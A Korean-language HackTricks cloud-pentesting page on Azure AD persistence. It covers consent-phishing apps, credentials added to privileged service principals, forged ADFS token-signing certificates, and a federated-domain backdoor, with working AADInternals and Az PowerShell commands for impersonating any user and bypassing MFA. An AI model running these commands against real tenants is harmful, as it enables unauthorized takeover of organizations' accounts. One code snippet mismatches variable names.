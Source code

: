 # Az - 지속성

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**를** **팔로우**하세요.
* **Hacking 트릭을 공유하려면** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하세요.

</details>

### 불법 동의 부여

기본적으로 모든 사용자는 Azure AD에서 애플리케이션을 등록할 수 있습니다. 따라서 대상 테넌트에 대해 고도의 영향을 미치는 권한이 필요한 애플리케이션을 등록할 수 있습니다. 이를 통해 사용자 대신 메일 보내기, 역할 관리 등의 작업을 수행할 수 있는 **피싱 공격**을 실행할 수 있습니다. 이러한 공격은 성공할 경우 매우 **성과가 좋을 것**입니다.

또한, 해당 애플리케이션을 사용자로서 수락함으로써 액세스를 유지할 수도 있습니다.

### 애플리케이션 및 서비스 주체

Application Administrator, GA 또는 microsoft.directory/applications/credentials/update 권한을 가진 사용자로서, 기존 애플리케이션에 자격 증명(비밀 또는 인증서)을 추가할 수 있습니다.

고 권한을 가진 애플리케이션을 **대상으로 지정**하거나 고 권한을 가진 **새로운 애플리케이션**을 추가할 수 있습니다.

애플리케이션에 추가할 수 있는 흥미로운 역할은 **Privileged authentication administrator role**입니다. 이 역할은 Global Administrators의 **비밀번호 재설정**을 허용합니다.

이 기술은 또한 **MFA 우회**를 가능하게 합니다.

{% code overflow="wrap" %}
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
{% endcode %}

* 인증서 기반 인증을 위해

{% code overflow="wrap" %}
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
{% endcode %}

### 연합 - 토큰 서명 인증서

온프레미스 AD에서 **DA 권한**을 가지고 있다면, 매우 긴 유효 기간을 가진 **새로운 토큰 서명** 및 **토큰 복호화 인증서**를 생성하고 가져올 수 있습니다. 이를 통해 우리는 ImuutableID를 알고 있는 **어떤 사용자로든 로그인**할 수 있습니다.

다음 명령을 **ADFS 서버의 DA로 실행**하여 새 인증서를 생성하고 (기본 암호 'AADInternals' 사용), ADFS에 추가하고 자동 롤오버를 비활성화하고 서비스를 다시 시작합니다.
```powershell
New-AADIntADFSSelfSignedCertificates
```
그런 다음 Azure AD로 인증서 정보를 업데이트하십시오:
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### 연합 - 신뢰하는 도메인

테넌트에서 GA 권한을 가지고 있다면, **새 도메인을 추가**할 수 있으며 (검증되어야 함), 인증 유형을 연합으로 구성하고 도메인을 **특정 인증서** (아래 명령어의 any.sts)와 발급자를 신뢰하도록 구성할 수 있습니다.
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## 참고 자료

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 제로에서 영웅까지 AWS 해킹 배우기<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션인 [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**를** **팔로우**하세요.
* **HackTricks**와 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하여 여러분의 해킹 기교를 공유하세요.

</details>
